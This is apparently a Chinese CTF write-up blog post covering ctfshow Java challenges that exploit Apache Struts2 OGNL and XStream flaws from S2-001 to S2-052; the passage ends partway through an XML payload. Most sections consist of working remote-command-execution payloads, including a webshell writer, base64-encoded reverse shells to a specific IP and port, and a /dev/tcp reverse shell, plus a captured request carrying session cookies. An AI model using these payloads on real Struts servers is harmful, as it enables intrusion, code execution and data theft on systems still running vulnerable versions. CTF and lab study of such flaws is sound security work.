---
title: "ctfshow入门Java"
date: 2026-02-17T12:04:55+08:00
summary: "ctfshow入门java"
url: "/posts/ctfshow入门Java/"
categories:
  - "ctfshow"
tags:
  - "java"
draft: false
---

# web279

## #S2-001

在页面源代码找到一个`/S2-001/`的路由，我记得有一个老漏洞就是struts2的S2-001

找个文章 https://www.freebuf.com/articles/network/224041.html

S2-001是因为Struts2中允许用户提交包含OGNL表达式字符串的表单数据，当用户提交表单数据且验证失败时，服务器使用OGNL表达式解析用户先前提交的参数值`%{value}`并重新填充相应的表单数据。

## 影响版本

Struts 2.0.0 - 2.0.8

获取tomcat路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取web路径

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

命令执行

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

关于OGNL表达式注入的话可以看：https://www.cnblogs.com/LittleHann/p/17788847.html

传入

```java
1/%{1+1}
```

发现1+1被执行并填充到表单中



然后打poc

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

页面返回root，可以执行命令直接打就行了，最后flag是在env环境变量里面

# web280

## #S2-005

S2-005漏洞

找到参考文章：

https://blog.csdn.net/u011721501/article/details/41626959

https://www.freebuf.com/vuls/193078.html

在低于Struts 2.0.12中struts2会将http的每个参数名解析为OGNL语句执行，我们都知道访问Ognl的上下文对象必须要使用`#`符号，S2-003对`#`号进行过滤，但是没有考虑到unicode编码情况，导致`\u0023`或者8进制`\43`绕过。

对于S2-003漏洞，官方通过增加安全配置（默认禁止了静态方法的调用（`allowStaticMethodAcces`和`MethodAccessor.denyMethodExecution`））来修补，但攻击者可以利用OGNL表达式将这2个选项打开，从而再次造成漏洞也就是S2-005。

## 影响版本

## 2.0.0 - 2.1.8.1

poc

```java
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: target:8080
Content-Length: 626
redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

将需要执行的命令进行urlencode编码

当然也可以直接用工具一把梭 https://github.com/Vancomycin-g/Struts2Scan

```java
// 查询漏洞
python .\Struts2Scan.py -u {url}
// 利用漏洞
python .\Struts2Scan.py -u {url} -n S2-005 --exec
```





直接打就行

# web281

## #S2-007

可以看y4tacker师傅的

 https://github.com/Y4tacker/JavaSec/blob/main/7.Struts2%E4%B8%93%E5%8C%BA/S2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/index.md

或者看这位大师傅的分析文章 https://github.com/kingkaki/Struts2-Vulenv?tab=readme-ov-file

漏洞原理：

当配置了验证规则`-validation.xml` 时，验证规则匹配到参数类型错误后，会跳转到配置的错误页面，并对jsp页面上的标签进行解析。后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。 

## 影响版本

## 2.0.0 - 2.2.3

在登录界面用户名和邮箱值随意，age部分改为我们的payload

```java
name=1&email=1&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29+%2B+%27
```



然后也是直接打就行了



# web282

## #S2-008

https://github.com/Y4tacker/JavaSec/blob/main/7.Struts2%E4%B8%93%E5%8C%BA/S2-008%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/index.md

S2-008涉及到很多个漏洞点，常见的一个是Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是这个不太好利用，毕竟例如Tomcat对 Cookie 名称都有字符限制，一些关键字符无法使用，另一个是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，但其实在真实环境中几乎不可能存在，除非开发是9块9包邮的

## 影响版本

## 2.1.0 - 2.3.1

但是题目的话就给出了第二个漏洞环境，也就是devMode模式下的漏洞

在 devMode 模式下直接添加参数`?debug=command&expression={OGNL 表达式}`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令

```java
(
  #_memberAccess.allowStaticMethodAccess=true,
  #context["xwork.MethodAccessor.denyMethodExecution"]=false,
  #cmd="env",
  #ret=@java.lang.Runtime@getRuntime().exec(#cmd),
  #data=new java.io.DataInputStream(#ret.getInputStream()),
  #res=new byte[2000],
  #data.readFully(#res),
  #echo=new java.lang.String(#res),
  #out=@org.apache.struts2.ServletActionContext@getResponse(),
  #out.getWriter().println(#echo)
)
```

```java
(
  #_memberAccess["allowStaticMethodAccess"]=true,
  #foo=new java.lang.Boolean("false"),
  #context["xwork.MethodAccessor.denyMethodExecution"]=#foo,
  @org.apache.commons.io.IOUtils@toString(
    @java.lang.Runtime@getRuntime().exec('env').getInputStream()
  )
)
```

但是第一个payload有readFully方法的一个特性，就是必须读取**完整的** 数组长度，如果流中数据不足 2000 字节，会 **一直阻塞等待**，第二个payload又需要有依赖Apache Commons IO，两个poc都不是很广泛

让ai换了一个poc，将readFully换成了read

```java
(
  #_memberAccess.allowStaticMethodAccess=true,
  #context["xwork.MethodAccessor.denyMethodExecution"]=false,
  #cmd="env",
  #ret=@java.lang.Runtime@getRuntime().exec(#cmd),
  #data=new java.io.DataInputStream(#ret.getInputStream()),
  #res=new byte[2000],
  #len=#data.read(#res),  
  #echo=new java.lang.String(#res, 0, #len),  
  #out=@org.apache.struts2.ServletActionContext@getResponse(),
  #out.getWriter().println(#echo)
)
```



# web283

## #S2-009

参考文章：https://windeskybb.work/archives/d8a48e1e-90d3-4de4-8143-8cdfa1aecb79

S2-009是S2-003与S2-005的补丁绕过，由于 Struts 2 会将 HTTP 请求的每个参数名解析为OGNL表达式执行，S2-003 与 S2-005 修复后 Struts 对参数名的过滤更加严格，只允许使用字母、数字以及部分特殊字符，而特殊字符只能为` ’ ( ) [ ] `，即单引号、小括号、中括号。

**S2-009 则是将 OGNL 表达式先放进 action 接收的参数中，然后再使用特殊方法取出存放的参数值，参数值 Strust 2 是未做严格校验的。**

## 影响版本

## 2.1.0 - 2.3.1.1

访问`/S2-009/`路径后是**Apache Struts 2 框架**的ShowCase

我们需要找到一个接受参数且参数类型是 String 的 action，可以用/S2-009/example5.action





这个页面接受name和age两个参数，其中 name 参数为 String类型。源代码分析的话就直接看文章里面吧

poc

```java
age=12&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27env%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```



然后直接打就行了

# web284

## #S2-012

https://blog.csdn.net/sycamorelg/article/details/118335710

https://cloud.tencent.com/developer/article/2197848

S2-012中，包含特制请求参数的请求可用于将任意 OGNL 代码注入属性，然后用作重定向地址的请求参数，这将导致进一步评估。当重定向结果从堆栈中读取并使用先前注入的代码作为重定向参数时，将进行第二次评估。这使恶意用户可以将任意 OGNL 语句放入由操作公开的任何未过滤的 String 变量中，并将其评估为 OGNL 表达式，以启用方法执行并执行任意方法，从而绕过 Struts 和 OGNL 库保护。

## 影响版本

Struts 2.1.0-2.3.13

在题目环境中找到一个提交表单

```html
<form id="user" name="user" action="/S2-012/user.action" method="post">
<table class="wwFormTable">
	<tr>
    <td class="tdLabel"></td>
    <td
><input type="text" name="name" value="" id="user_name"/></td>
</tr>

	<tr>
    <td colspan="2"><div align="right"><input type="submit" id="user_0" value="Submit"/>
</div></td>
</tr>

</table></form>
```

存在一个路径为`/S2-012/user.action`的POST请求表单，那我们直接传吧

poc

```java
%{(#cmd='whoami').(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#a=(new java.lang.ProcessBuilder(#cmds)).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close())}
```



# web285

## #S2-013

https://blog.csdn.net/weixin_47493074/article/details/126931475

https://cloud.tencent.com/developer/article/2197849

struts2的标签中`<s:a>`和`<s:url>`都提供includeparams属性。该属性的主要作用域是了解包含或不包含`http://request`参数的内容。INCLUDEParams的允许值为：

- none-在URL中不包含任何参数（默认）
- get-仅在URL中包含get参数
- all-在URL中同时包含get和post参数。

当includeParams=all的时候，会将本次请求的GET和POST参数都放在URL的GET参数上，此时`<s:a>` 或`<s:url>`尝试去解析原始请求参数时，会导致OGNL表达式的执行

## 影响版本

2.0.0 - 2.3.14.1

POC

```java
?a=${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println('dbapp='+new java.lang.String(#d)),#out.close()}
```



# web286

## #S2-015

https://www.cnblogs.com/crayonxiaoxin/p/17025707.html

https://cloud.tencent.com/developer/article/2097445

https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md

漏洞产生于配置了 Action 通配符 `*`，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式。

一旦配置通配符`*`，访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。但是由于 name 值的位置比较特殊，一些特殊的字符如 `/ " \ `都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

## 影响版本

2.0.0至2.3.14.2

poc

```java
/${#context[‘xwork.MethodAccessor.denyMethodExecution’]=false,#m=#_memberAccess.getClass().getDeclaredField(‘allowStaticMethodAccess’),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(‘whoami’).getInputStream()),#q}.action
    
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```



可以看到回显了root，成功执行命令whoami

但是直接env的回显内容是有限的，弹个shell吧


```java
/%24%7B%23context%5B'xwork.MethodAccessor.denyMethodExecution'%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}').getInputStream())%2C%23q%7D.action
```

# web287

## #S2-016

https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md

https://cloud.tencent.com/developer/article/2197854

在Struts 2框架中，DefaultActionMapper类支持以`“action:”、“redirect:”、“redirectAction:”`作为导航或重定向前缀，这些导航或者前缀后面可以写OGNL表达式。Struts 2并没有对这些前缀进行过滤，所以可以任意执行恶意OGNL表达式以执行系统命令。DefaultActionMapper类支持`“method:”、“action:”、“redirect:”、“redirectAction:”`这些方法 。

所以，访问例如`http://your-ip:8080/index.action?redirect:OGNL表达式`即可执行OGNL表达式。

## 影响版本

2.0.0 - 2.3.15

执行命令：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

获取web目录：

```
redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

写入webshell：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

所以我们反弹shell的poc

```java
/S2-016/default.action?redirect%3A%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjQuMjIzLjI1LjE4Ni85OTk5IDA%2BJjE%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D
```



# web288

## #S2-019

https://blog.csdn.net/qq_31679787/article/details/102658406

这个漏洞网上资料倒是不多

poc

```java
?debug=command&expression=%23f%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23req%3D%40org.apache.struts2.ServletActionContext%40getRequest()%2C%23resp%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B'whoami'%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B1000%5D%2C%23d.read(%23e)%2C%23resp.println(%23e)%2C%23resp.close()
```



后面也是直接打就行了，记得改一下字节数组的大小

# web289

## #S2-029？

https://blog.csdn.net/zr1213159840/article/details/122511489

但是用poc并没有打通，转向使用更高版本的漏洞POC吧，用工具检测发现045可以打



# web290

## #S2-032

https://github.com/vulhub/vulhub/blob/master/struts2/s2-032/README.zh-cn.md

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

## 影响版本

2.3.20 - 2.3.28 (except 2.3.20.3 and 2.3.24.3)

POC

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

随便点击一个会跳转到`/S2-032/memoshow.action`，在后面打入poc就行了



# web291

## #S2-037

其实我觉得这个应该是S2-037而不是S2-033

https://www.cnblogs.com/jinqi520/p/10815048.html

 S2-033漏洞和S2-032类似，也是由于开启了动态方法调用，Rest插件中获取action mapper作为方法名，其执行的方法名可控，导致了ognl表达式注入。

S2-037是S2-033的一个绕过，不需要开启动态方法调用就可以进行rce。RestActionMapper类的getmapping比DefaultActionMapper中多了后面一部分，也就是rest插件支持actionName/id/methodName这种方式解析uri，且并不用开启动态方法调用。

## 影响版本（不确定）

Struts 2.3.20 – Struts 2.3.28 (不包括 2.3.20.3和 2.3.24.3)

```java
/S2-033/orders/3/%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2c%23process%3d%40java.lang.Runtime%40getRuntime().exec(%23parameters.command%5b0%5d)%2c%23ros%3d(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())%2c%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream()%2c%23ros)%2c%23ros.flush()%2c%23xx%3d123%2c%23xx.toString.json?command=whoami
```

command改成需要执行的命令就可以了



# web292

## #S2-037

https://blog.csdn.net/m0_64118193/article/details/147288963

和上面的一样，直接打就行

## 影响版本

Apache struts 2.3.20 - 2.3.28.1 版本使用了REST插件的用户

# web293

## #S2-045

https://github.com/vulhub/vulhub/blob/master/struts2/s2-045/README.zh-cn.md

p牛只给了测试poc，没有给执行命令的poc

看这篇文章吧：https://www.cnblogs.com/zzjdbk/p/13335134.html

在使用基于Jakarta插件的文件上传功能时，恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

## 影响版本

Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

找到一个可以上传文件点


 ```java
 Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
 ```



# web294

## #S2-046

https://blog.csdn.net/m0_64777251/article/details/137837795

https://github.com/vulhub/vulhub/blob/master/struts2/s2-046/README.zh-cn.md

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

## 影响版本

2.0.0 <= Struts2 <= 2.3.32

POC

```java
 ${(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

另外还需要在b前面插入一个00进行截断





当然也是可以直接在Content-Type里面打的，不过我当时并没有尝试

# web295

## #S2-048

https://www.freebuf.com/vuls/341609.html

**漏洞存在的路径 /integration/saveGangster.action，在路径中提交Gangster Name传入OGNL表达式时，点击Submit提交后发现OGNL表达式被解析执行**

例如传入`${8*8}`



## 影响版本

2.0.0 - 2.3.32

POC

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())).(#q)}
```



没法执行env，并且弹shell也弹不上去

# web296

## #S2-052

https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md

https://www.freebuf.com/articles/web/208654.html

https://blog.csdn.net/Jietewang/article/details/109091898

Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可造成远程命令执行。

## 影响版本

Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

poc

```http
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

但是这个漏洞并不会回显，所以需要反弹shell

```http
POST /S2-052/orders/3 HTTP/1.1
Host: a58ff680-e3c3-4c88-9876-241b47c8bbe1.challenge.ctf.show
Cookie: JSESSIONID=612176576D5EAE044D06CDAB7620E546; cf_clearance=ZuK66QChNGftyyiGS39xGqXjRvrgqwc7dpOpwNp8hgY-1747317016-1.2.1.1-SHtYMtmhonoQh3f9JFLxlX5e8ZPl2H.d.1t6d9JUkU8A48zWJ8kwl3L9eAExpcFayYenFfR8OxZ7NWlafUA3eW..1Ql.yEeMVQsO2dN0LeOWb9v9mBTw9f9lNiJBsuz0wNfBuxQoVypAzPhH9KeUpkB22hemlwS35.DR.pfloutzMUBCc7K.SMPWBv0hD22WPrXL6TOwx.8Vlv0exiJGfJydMDF8Fmgi7BwFDHfm8A27bqv1xzCh1xdEneeUo.dok_1cBQWYDpbP2ClHu0miDKBW2hnvhGXG7HbMovGYSE3c1QFXa0TPiCQYSEXDX_10Bnlxz9QrXZujCxO7ZGcQA_vDxzoYodJRpDZrLpAsbq8; JSESSIONID=9EE1B5306055FDC634BEBFD5C5C1FF90
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Google Chrome";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://a58ff680-e3c3-4c88-9876-241b47c8bbe1.challenge.ctf.show
Content-Type: application/xml
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://a58ff680-e3c3-4c88-9876-241b47c8bbe1.challenge.ctf.show/S2-052/orders/3/edit
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Content-Length: 2427
Connection: keep-alive

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
 <string>bash</string>
<string>-c</string>
<string>bash -i >&amp;/dev/tcp/[ip]/[port] 0>&amp;1</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
